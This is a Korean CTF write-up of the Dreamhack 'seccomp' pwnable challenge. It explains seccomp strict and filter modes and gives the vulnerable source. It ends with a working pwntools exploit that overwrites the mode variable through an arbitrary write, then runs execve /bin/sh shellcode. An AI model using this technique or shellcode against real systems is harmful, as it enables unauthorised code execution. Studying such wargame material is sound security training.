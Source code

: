 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN seccomp"
excerpt: "드림핵 포너블 seccomp 문제풀이"
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2023-03-24 18:00
---
```


이번 문제는 리눅스 샌드박스 기능인 seccomp 문제다. seccomp는 리눅스 커널에서 특정 system call를 필터링 하는 기능이다. 특정 함수를 사용하지 못하게 막거나 특정 함수만 사용할 수 있도록 제한하는 기능을 제공한다.

간단하게 설명하겠다. seccomp는 두가지 모드가 있다. STRICT_MODE 와 FILTER_MODE가 있는데 STRICT_MODE는 read, write, exit, sigreturn system call만 허용한다. FILTER_MODE는 개발자가 특정 함수에 대한 필터를 구성해 allow list 또는 deny list방식으로 운용이 가능하다.

일단 문제의 소스코드를 살펴보자.

```c++
// gcc -o seccomp seccomp.cq
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <signal.h>
#include <stddef.h>
#include <sys/prctl.h>
#include <linux/seccomp.h>
#include <linux/filter.h>
#include <linux/unistd.h>
#include <linux/audit.h>
#include <sys/mman.h>

int mode = SECCOMP_MODE_STRICT;

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int syscall_filter() {
    #define syscall_nr (offsetof(struct seccomp_data, nr))
    #define arch_nr (offsetof(struct seccomp_data, arch))
    
    /* architecture x86_64 */
    #define REG_SYSCALL REG_RAX
    #define ARCH_NR AUDIT_ARCH_X86_64
    struct sock_filter filter[] = {
        /* Validate architecture. */
        BPF_STMT(BPF_LD+BPF_W+BPF_ABS, arch_nr),
        BPF_JUMP(BPF_JMP+BPF_JEQ+BPF_K, ARCH_NR, 1, 0),
        BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL),
        /* Get system call number. */
        BPF_STMT(BPF_LD+BPF_W+BPF_ABS, syscall_nr),
        };
    
    struct sock_fprog prog = {
    .len = (unsigned short)(sizeof(filter)/sizeof(filter[0])),
    .filter = filter,
        };
    if ( prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) == -1 ) {
        perror("prctl(PR_SET_NO_NEW_PRIVS)\n");
        return -1;
        }
    
    if ( prctl(PR_SET_SECCOMP, mode, &prog) == -1 ) {
        perror("Seccomp filter error\n");
        return -1;
        }
    return 0;
}


int main(int argc, char* argv[])
{
    void (*sc)();
    unsigned char *shellcode;
    int cnt = 0;
    int idx;
    long addr;
    long value;

    initialize();

    shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);

    while(1) {
        printf("1. Read shellcode\n");
        printf("2. Execute shellcode\n");
        printf("3. Write address\n");
        printf("> ");

        scanf("%d", &idx);

        switch(idx) {
            case 1:
                if(cnt != 0) {
                    exit(0);
                }

                syscall_filter();
                printf("shellcode: ");
                read(0, shellcode, 1024);
                cnt++;
                break;
            case 2:
                sc = (void *)shellcode;
                sc();
                break;
            case 3:
                printf("addr: ");
                scanf("%ld", &addr);
                printf("value: ");
                scanf("%ld", addr);
                break;
            default:
                break;
        }
    }
    return 0;
}
```

처음 문제를 보고 FILTER_MODE가 적용된줄 알았다. 그러나 맨 위에 mode 변수를 보면 STRICT_MODE가 설정되어 있다. 함수 필터에 아무런 필터를 구성하지 않고 해당 필터를 STRICT_MODE로 적용한 것이다. 이렇게 되면 read, write, exit, sigreturn system call만 사용할 수 있다.

이 모드를 못보고 계속 AND 연산 하면서 뻘짓을 했었다.

main함수를 살펴보면 case 1번에서 필터 설정을 진행하고 쉘코드를 입력 받는다. case 2를 통해 입력받은 쉘 코드를 실행하고 case 3을 이용하면 원하는 주소의 값을 바꿀 수 있다.

익스플로잇을 구상해보면 case 1번이 실행되기 전에 case 3을 통해서 mode 변수의 내용을 FILTER_MODE로 바꾸면 쉽게 쉘코드를 실행 할 수 있을 것 같다. 

gdb를 통해 해당 주소의 내용을 확인해 보면 다음과 같다.

```
pwndbg> x/x &mode
0x602090 <mode>:        0x00000001
```

STRICT_MODE는 1, FILTER_MODE는 2이다. 따라서 해당 주소의 값을 2로 바꾸고 아무 쉘코드를 실행하면 플래그를 얻을 수 있다.

익스플로잇 코드는 다음과 같다.

```python
from pwn import *
context.update(arch='amd64', os='linux')
#context.log_level = 'debug'

#p = remote("host3.dreamhack.games", 16715);
#p = process("./iofile_vtable_check", env={'LD_PRELOAD':'./libc.so.6'})
p = process("./seccomp")
#elf = ELF("./cpp_container_1")
#libc = ELF("./libc.so.6")

mode = 0x602090
shell = b"\x48\x31\xc9\x48\xf7\xe1\x04\x3b\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
 
p.sendlineafter("> ", "3")
p.sendlineafter("addr: ", str(mode))
p.sendlineafter("value: ", "2")

p.sendlineafter("> ", "1")
p.sendafter("shellcode: ", shell)
 
p.sendlineafter("> ", "2")
 
p.interactive()
```